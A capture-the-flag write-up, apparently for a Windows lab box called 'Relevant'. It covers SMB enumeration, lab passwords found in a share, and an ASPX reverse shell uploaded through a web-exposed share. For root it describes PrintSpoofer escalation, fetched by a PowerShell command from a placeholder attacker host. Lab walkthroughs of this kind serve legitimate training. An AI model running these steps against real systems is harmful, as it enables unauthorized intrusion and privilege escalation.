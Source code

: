 ```yaml
---
title: "Relevant"
tags:
  - Medium
  - Windows
  - nmap
  - samba
  - Token Impersonation
  - PrintSpoofer
---
```


| Difficulty |
| ---------- |
|   Medium   |

---

### [ User Flag ]

We first start off with a basic `nmap` scan on the target machine. This will only target the top 1000 ports.

```
sudo nmap -sC -sV -vv 10.10.72.53
```

**Results:**

![screenshot1](../assets/images/relevant/screenshot1.png)

From the results, we can see that the following ports are open:

**Port 80** - HTTP Web server

**Port 135** - Windows RPC

**Port 139** - SMB Server

**Port 445** - SMB Server

**Port 3389** - Microsoft Terminal Services

Let's first take a look at the HTTP server.

![screenshot2](../assets/images/relevant/screenshot2.png)

Doing some manual enumeration of the website, I was unable to find anything of interest. The enumeration included checking of the source code and other low-hanging fruit such as the robots.txt file. Clickable elements within the webpage also only brought us to other websites that were not of use to us.

Next, I tried running a `gobuster` directory scan on the website, but unfortunately I was unable to find any hidden directories.

Hitting a dead end, I decided to move on to enumerating the Samba server that is running on port 139 and 445.

At first, I tried to use a Samba enumeration tool called **enum4linux**, but it was unable to scan the server.

``` 
enum4linux 10.10.72.53
```

![screenshot3](../assets/images/relevant/screenshot3.png)

Next, I tried using `smbclient` to list out the shares that were accessible on the server. This can be done with the `-L` tag.

```
smbclient -L 10.10.72.53
```

![screenshot4](../assets/images/relevant/screenshot4.png)

Nice! Looks like there are a few shares that we can potentially log into if they have **anonymous access** enabled. I tried to log into all of the shares, but the only shares that I could successfully log into were the **IPC$** and **nt4wrksv** shares.

---

*Note: While enum4linux did not work, we can alternatively use nmap to run a smb enumeration scan on our target. The command is:*

``` 
nmap --script smb-enum-shares.nse -p445 <host>
```

---

While the **IPC$** share did not contain anything, the **nt4wrksv** share actually contained a **passwords.txt** file.

![screenshot5](../assets/images/relevant/screenshot5.png)

I downloaded the text file onto my local machine. The contents are:

![screenshot6](../assets/images/relevant/screenshot6.png)

Looks like the text file contained user passwords that were **base64-encoded**. After decoding them, we get the following user credentials:

* **Bob: !P@$$W0rD!123**

* **Bill: Juw4nnaM4n420696969!$$$**

With these credentials, I tried to log into the other Samba shares, but unfortunately they did not work. I also tried to log into the RDP service, but that was to no avail as well.

Hitting yet another dead end, I decided to run a full `nmap` scan. Perhaps there are other ports open on the machine that were not detected initially.

```
sudo nmap -sC -sV -vv -p- -T4 --defeat-rst-ratelimit 10.10.72.53
```

*The -T4 and the --defeat-rst-ratelimit tags are used to speed up the nmap scan greatly. We would not use these settings in a real-world application as it is very noisy. However, since we are scanning within a controlled CTF environment, we can go wild :)*

**Results:**

![screenshot7](../assets/images/relevant/screenshot7.png)

Apart from the ports that we scanned earlier, there are now 3 new open ports that were detected:

**Port 49663** - Another HTTP server

**Port 49667** - Windows RPC

**Port 49669** - Windows RPC

What caught my attention was the HTTP server running on port **49663**. Let's take a look:

![screenshot8](../assets/images/relevant/screenshot8.png)

This brings us to the same webpage as before.

However, running a `gobuster` directory scan this time reveals a subdirectory called **/nt4wrksv**!

---

*Note: The **/nt4wrksv** entry is actually located at the very bottom of the dirbuster medium directory wordlist. Hence, I had to wait for Gobuster to completely go through the wordlist before it managed to detect this subdirectory! This was a lesson on patience as I would have normally assumed that there were no more potential results once Gobuster had gone through about half of the wordlist, and would have stopped the scan. Fortunately, I let Gobuster finish the scan this time.*

---

![screenshot9](../assets/images/relevant/screenshot9.png)

As this directory has the same name as the Samba share from earlier, I assumed that directory is actually bringing us to the share itself.

To test this, I tried visiting **/nt4wrksv/passwords.txt**:

![screenshot10](../assets/images/relevant/screenshot10.png)

Sure enough, the passwords.txt file in the SMB share was displayed! This is great as that means we can potentially obtain RCE by uploading a file into the share and accessing it via the webpage. With this, we can open up a reverse shell and gain a foothold into the target machine.

![screenshot11](../assets/images/relevant/screenshot11.png)

Using **Wappalyzer** on the main webpage, I found out that the framework that was being used was **Microsoft ASP.NET**. As such, we will have to upload an **ASPX reverse shell** file. I found such a file [here](https://github.com/borjmz/aspx-reverse-shell).

Using `smbclient`, I then uploaded the reverse shell into the **nt4wrksv** share. 

![screenshot12](../assets/images/relevant/screenshot12.png)

Once that was done, I opened up a netcat listener and opened the reverse shell by accessing **/nt4wrksv/shell.aspx**.

![screenshot13](../assets/images/relevant/screenshot13.png)

And we're in!

With that, we can obtain the user flag that is located in the **Desktop** of the user **Bob**:

![screenshot14](../assets/images/relevant/screenshot14.png)

---

### [ Root Flag ]

Next, we have to find a way to escalate our privileges. Let's first check out the privileges that are enabled on our current account. We can do this with the `whoami /priv` command:

![screenshot15](../assets/images/relevant/screenshot15.png)

Interesting! Looks like we have the **SeImpersonatePrivilege** privilege enabled. With this privilege enabled, we can use the [PrintSpoofer]((https://github.com/dievus/printspoofer)) tool to escalate our privileges. 

*More information on how PrintSpoofer works can be found [here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)*

We upload the PrintSpoofer tool onto our target machine by using Powershell to download it from a Python HTTP server that we have set up on our local machine. The command to download the tool is:

```
powershell "Invoke-WebRequest -UseBasicParsing <YOUR_IP_HERE>/PrintSpoofer.exe -OutFile PrintSpoofer.exe"
```

Once the tool is downloaded, we can simply run it with:

```
.\PrintSpoofer.exe -i -c cmd 
```

This will open up a cmd prompt with root privileges.

![screenshot16](../assets/images/relevant/screenshot16.png)

And we have successfully escalated our privileges! With that, we can obtain the root flag that is located in the **Desktop** of the **Administrator** account:

![screenshot17](../assets/images/relevant/screenshot17.png)

